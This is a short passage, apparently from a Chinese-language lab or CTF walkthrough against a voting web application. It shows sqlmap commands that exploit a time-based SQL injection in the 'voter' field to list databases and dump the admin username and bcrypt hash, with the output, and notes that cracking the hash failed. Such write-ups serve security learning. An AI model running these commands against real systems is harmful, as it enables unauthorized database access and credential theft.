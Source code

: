 证实用户名voter字段存在基于时间的sql注入,以下payload拿到所有数据库名字

```
root@kali# sqlmap -r data --batch -p voter --level 3 --risk 3 --dbms=mysql --technique=T --dbs
...
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test
[*] votesystem
...
```

同样的方法，一步步测试，用下面payload拿到用户凭据

```
root@kali# sqlmap -r data --batch -p voter --level 3 --risk 3 --dbms=mysql --technique=T -D votesystem -T admin -C username,password --dump

Database: votesystem
Table: admin
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$psrWULJqgpPOl4HUt.ctM.vFMYJjh65EiRFDbIAZsa3z/F3t/8zXW |
+----------+--------------------------------------------------------------+
```

但是用john和hashcat我都无法爆破这个密码.

## 443
